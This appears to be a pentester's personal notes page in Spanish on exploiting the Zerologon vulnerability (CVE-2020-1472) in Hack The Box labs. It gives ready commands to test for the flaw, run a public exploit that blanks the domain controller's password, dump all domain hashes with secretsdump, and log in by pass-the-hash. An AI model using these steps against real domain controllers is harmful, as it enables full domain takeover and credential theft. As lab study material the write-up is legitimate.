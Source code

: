 
## DESCRIPTION

Zerologon es una vulnerabilidad en la criptografía del proceso de Netlogon de Microsoft que permite un ataque frente a los controladores de dominio de Active Directory de Microsoft. Zerologon hace que un hacker pueda suplantar cualquier ordenador, incluido el controlador del dominio raíz.

El principal uso que se le suele dar es dumpear la NTDS.DIT (base de datos con todos los hashes de todos los usuarios del dominio)

#### Mas información
* https://0xdf.gitlab.io/2020/09/17/zerologon-owning-htb-machines-with-cve-2020-1472.html
* https://0xdf.gitlab.io/2020/09/19/htb-multimaster.html

## EXPLOITATION

**!!NOTA IMPORTANTE!!** 
+ Para instalar todas las herramientas relativas a zerologon se ha usado los entornos viruales de python (see in [[PYTHON VIRTUAL ENV]]).
+ En la máquina el correspondiente a zerologon se encuentra en la ruta: `home/kali/VENV/zerologon/`
+ Para activar el entorno virtual, entrar en el directorio y usar: `source venv/bin/activate`

**!!NOTA IMPORTANTE!!** El DC-NAME de las siguientes dos herramientas es el de **NETBIOS COMPUTERNAME** (ver en crackmapexec o en big-nmap)

### OPTION 1: ONLY TESTING

* Tool repo: https://github.com/SecuraBV/CVE-2020-1472

* Path in Kali virtual env: **/home/kali/VENV/zerologon/exploit/tester/CVE-2020-1472

```
python3 zerologon_tester.py MULTIMASTER 10.10.10.179  
```

![[Pasted image 20230221190824.png]]

### OPTION 2: REAL EXPLOITING

* Tool repo: https://github.com/dirkjanm/CVE-2020-1472

* Path in Path in Kali virtual env: **/home/kali/VENV/zerologon/exploit/

```
python CVE-2020-1472/cve-2020-1472-exploit.py MULTIMASTER 10.10.10.179
```

![[Pasted image 20230221203029.png]]

Se ha cambiado la contraseña a usuario en blanco, entonces podemos usar secretdumps para volcar la base de datos de hashes del dominio.

```
secretsdump.py -no-pass -just-dc MULTIMASTER\$@10.10.10.179
```

![[Pasted image 20230221203146.png]]

Nos conectamos usando un Pass The Hash.

![[Pasted image 20230221202717.png]]

## MACHINES

* Hack The Box: Multimaster, Resolute
